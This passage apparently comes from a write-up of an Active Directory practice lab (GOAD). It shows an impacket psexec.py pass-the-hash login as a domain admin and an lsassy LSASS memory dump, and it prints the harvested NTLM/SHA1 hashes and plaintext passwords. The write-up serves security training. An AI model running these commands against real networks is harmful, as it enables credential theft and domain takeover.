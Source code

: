 
Then by using `Pass the Hash` I use this hash to authenticate as the Domain Admin, using the `psexec.py` tool from `impacket`:

`psexec.py north.sevenkingdoms.local/eddard.stark@10.4.10.11 -hashes aad3b435b51404eeaad3b435b51404ee:d977b98c6c9282c5c478be1d97b237b8`

![](Pasted_image_20250107141138.png)
![Pasted_image_20250107141138](https://github.com/user-attachments/assets/53440b38-091b-4885-9587-a2078373621d)

# LSASS Dump

LSASS (Local Security Authority Subsystem Service) is a process which enforces security policy on the system and handles authentication requests, user session management, and other security-related tasks.

Functions of LSASS:
- Authentication Management - Processes login requests for local and domain accounts, and validates user credentials (passwords, NTLM hashes, Kerberos tickets).
- Access Token Creation - After authentication is successful, it creates and assigns an access token to the user or process, defining what resources they can access.
- Kerberos and NTLM Authentication.
- Security Policy Enforcing - Enforces account lockout policies, password requirements and privilege assignments.

I dumped the LSASS memory by using the `lsassy` tool, and passing the hash of "eddard.stark".

`lsassy -u eddard.stark -p "" -H d977b98c6c9282c5c478be1d97b237b8 -d north.sevenkingdoms.local 10.4.10.22`

I dumped the following sensitive information from LSASS Memory:

### NTLM and SHA1 Hashes:

`10.4.10.22 - NORTH\CASTELBLACK$                               [NT] 0073abf6ce521277f2d1a148bc955aa9 | [SHA1] 057ab9db09f89ca2659dcffccbbbf363e896d5af`

`10.4.10.22 - NORTH\robb.stark                                 [NT] 831486ac7f26860c9e2f51ac91e1a07a | [SHA1] 3bea28f1c440eed7be7d423cefebb50322ed7b6c`

`10.4.10.22 - NORTH\sql_svc                                    [NT] 84a5092f53390ea48d660be52b93b804 | [SHA1] 9fd961155e28b1c6f9b3859f32f4779ad6a06404`

`10.4.10.22 - NORTH\jon.snow                                   [NT] b8d76e56e9dac90539aff05e3ccb1755 | [SHA1] 1315aeb7efe3eed73b568094db32a90f2e24a248`

`10.4.10.22 - CASTELBLACK\localuser                            [NT] 8846f7eaee8fb117ad06bdd830b7586c | [SHA1] e8f97fba9104d1ea5047948e6dfb67facd9f5b73`

### Plaintext Passwords

`10.4.10.22 - north.sevenkingdoms.local\CASTELBLACK$           [PWD] wGC870k%/[bHDQHK$eg;5h$>4&t[NygJP]l16jqa?!CaL69P]!=%xk7@qkdZYk&J"61OyMAL+n=6UqSh]kIh:t7spo\t;KNWl>FtN\i<E=VYxG#5hG?mhN(b`

`10.4.10.22 - NORTH.SEVENKINGDOMS.LOCAL\sql_svc                [PWD] YouWillNotKerboroast1ngMeeeeee`
